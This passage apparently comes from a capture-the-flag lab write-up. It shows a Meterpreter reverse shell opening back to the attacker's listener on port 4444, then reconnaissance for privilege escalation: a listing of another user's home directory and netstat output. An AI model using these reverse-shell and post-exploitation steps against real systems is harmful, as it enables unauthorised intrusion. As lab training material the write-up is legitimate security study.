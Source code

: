 And we got reverse shell connection!
```
[*] Sending stage (3045380 bytes) to 10.129.48.68
[*] Meterpreter session 1 opened (10.10.14.212:4444 -> 10.129.48.68:35452) at 2025-03-07 20:12:42 +0100

meterpreter > getuid
Server username: app
```

Foothold for user `app` gained, let's proceed to elevation of priviliges.

# Priviliges escalation
Quick scan with exploit suggester does not yield any results. We can also see that there is no user flag in home directory of `app` user, however it could be found at `/home/rosa`.
```
meterpreter > ls /home/rosa
Listing: /home/rosa
===================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2025-03-07 20:02:18 +0100  .bash_history
100644/rw-r--r--  220   fil   2020-02-25 13:03:22 +0100  .bash_logout
100644/rw-r--r--  3771  fil   2020-02-25 13:03:22 +0100  .bashrc
040700/rwx------  4096  dir   2024-06-15 22:38:15 +0200  .cache
040775/rwxrwxr-x  4096  dir   2024-06-16 18:04:57 +0200  .local
100644/rw-r--r--  807   fil   2020-02-25 13:03:22 +0100  .profile
020666/rw-rw-rw-  0     cha   2025-03-07 20:02:18 +0100  .sqlite_history
040700/rwx------  4096  dir   2024-06-15 20:24:18 +0200  .ssh
100644/rw-r--r--  0     fil   2024-06-15 22:43:14 +0200  .sudo_as_admin_successful
100640/rw-r-----  33    fil   2025-03-07 20:03:04 +0100  user.txt
```

Additionally with use `netstat` we could see:
```
meterpreter > netstat

Connection list
===============

    Proto  Local address       Remote address      State        User  Inode  PID/Program name
    -----  -------------       --------------      -----        ----  -----  ----------------
    tcp    127.0.0.1:8080      0.0.0.0:*           LISTEN       0     0
    tcp    127.0.0.53:53       0.0.0.0:*           LISTEN       101   0
    tcp    0.0.0.0:22          0.0.0.0:*           LISTEN       0     0
    tcp    0.0.0.0:5000        0.0.0.0:*           LISTEN       1001  0
    tcp    10.129.48.68:5000   10.10.14.212:41944  ESTABLISHED  1001  0
    tcp    10.129.48.68:35452  10.10.14.212:4444   ESTABLISHED  1001  0
    tcp    10.129.48.68:41972  8.8.8.8:53          SYN_SENT     101   0
    tcp    :::22               :::*                LISTEN       0     0
    udp    127.0.0.53:53       0.0.0.0:*                        101   0
    udp    0.0.0.0:68          0.0.0.0:*                        0     0
    udp    127.0.0.1:36302     127.0.0.53:53       ESTABLISHED  102   0
```
